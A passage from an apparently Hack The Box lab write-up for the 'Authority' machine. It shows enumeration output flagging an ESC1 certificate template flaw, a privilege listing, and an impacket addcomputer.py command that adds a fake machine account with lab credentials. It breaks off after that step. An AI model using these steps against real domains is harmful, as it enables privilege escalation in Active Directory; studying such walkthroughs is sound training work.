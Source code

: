 ```
                                          ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Property Principals       : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

We can see that the tool gives us a vulnerable certificate pattern with an ESC1 (Template allows SAN) attack via a wrong permission for the Domain computer group. It happens that our user can add computers in the domain, thanks to one of its privileges (**SeMachineAccountPrivilege**). 
```
whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We go therefore adding a fake PC in the domain via the addcomputer.py tool of the impacket suite: `addcomputer.py -method LDAPS -dc-ip 10.10.11.222 -computer-pass Hackerman123 -computer-name TRYHARD$ authority.htb/svc_ldap:lDaP_1n_th3_cle4r!`
```
Impacket for Exegol - v0.10.1.dev1+20230806.34223.faf17b2 - Copyright 2022 Fortra - forked by ThePorgs

[*] Successfully added machine account TRYHARD$ with password Hackerman123
```
